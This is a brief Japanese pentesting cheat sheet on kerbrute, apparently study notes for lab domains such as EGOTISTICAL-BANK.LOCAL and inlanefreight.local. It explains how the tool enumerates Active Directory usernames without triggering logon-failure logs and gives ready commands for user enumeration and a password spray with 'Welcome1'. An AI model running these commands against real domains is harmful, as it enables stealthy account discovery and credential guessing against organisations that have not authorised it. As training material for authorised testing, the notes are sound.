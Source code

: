 # kerbture
AD環境への攻撃で、ユーザ名を列挙するときに使える。  
仕組みとしてkerbruteはKerberos Pre Authenticationをスキップするため、Windowsイベントログにてログオン失敗のログが発生しない。  
ログオンではなく、Kerberos Pre AuthenticationをせずTGSの要求を行った時のレスポンスによってそのユーザ名がドメイン内で有効化どうかを判断しているよう。  
なのでKerbruteでのドメインユーザ列挙はステルス性が高く高速であるといえる。

## コマンド集

1. aa
```
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclits/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

2. inlanefreight.lcoalドメインにて、ドメコンを指定して、有効なドメインユーザをjsmith.txtを使ってスキャンする。
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

3. Welcome1というパスワードを使って、有効なドメインユーザに対してパスワードスプレーを行う。
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```